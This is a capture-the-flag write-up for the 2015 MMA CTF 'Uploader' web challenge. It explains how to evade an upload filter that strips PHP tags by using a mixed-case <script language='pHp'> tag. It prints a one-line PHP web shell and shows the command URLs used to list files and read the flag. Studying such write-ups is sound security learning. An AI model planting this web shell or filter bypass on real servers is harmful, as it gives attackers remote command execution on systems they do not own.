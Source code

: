 ## MMA 1st CTF 2015 - Uploader (Web 100)
##### 05/09 - 07/09/2015 (48hr)
___
### Description: 
This uploader deletes all /<\?|php/. So you cannot run php.
```
http://recocta.chal.mmactf.link:9080/
http://recocta.chal.mmactf.link:9081/ (Mirror 1)
http://recocta.chal.mmactf.link:9082/ (Mirror 2)
http://recocta.chal.mmactf.link:9083/ (Mirror 3)
```
You can only upload files whose name is matched by /^[a-zA-Z0-9]+\.[a-zA-Z0-9]+$/.
___
### Solution

These are the challenges that you either solve in 5 mins, or you never solve. We can upload php
files but they cannot contain <? php, or <?php. However it is possible to execute php as follows:
```html
	<script language="php"></script>
```

Thus all we have to do is to upload the following file:
```html
<script language="pHp">
	system( $_GET['cmd'] );
</script>
```

Because "php" string is filtered, we use "pHp" filter instead, as filter is case sensitive. 
Let's start. First we list all files:
```
	http://recocta.chal.mmactf.link:9080/u/foo.php?cmd=ls / -la 
```

There's a file called flag. We read it:
```
	http://recocta.chal.mmactf.link:9080/u/foo.php?cmd=cat /flag
```
And we get the flag: **MMA{you can run php from script tag}**
___



